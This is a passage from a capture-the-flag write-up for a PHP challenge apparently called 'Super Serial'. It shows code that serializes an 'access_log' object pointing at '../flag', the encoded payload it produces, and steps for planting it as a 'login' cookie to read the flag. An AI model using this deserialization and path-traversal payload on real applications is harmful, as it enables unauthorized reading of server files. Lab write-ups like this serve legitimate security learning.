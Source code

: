```php
	function read_log() {
		return file_get_contents($this->log_file);
	}
}

echo(urlencode(base64_encode(serialize((new access_log("../flag"))))));
?>
```

The output of the program:

```php
TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9
```

Now we create a cookie “login” with our object as value on the /authentication.php page

![Untitled](/assets/lib/Super Serial/Untitled%206.png)

![Untitled](/assets/lib/Super Serial/Untitled%207.png)

Refreshing the page gives us the flag.

![Untitled](/assets/lib/Super Serial/Untitled%208.png)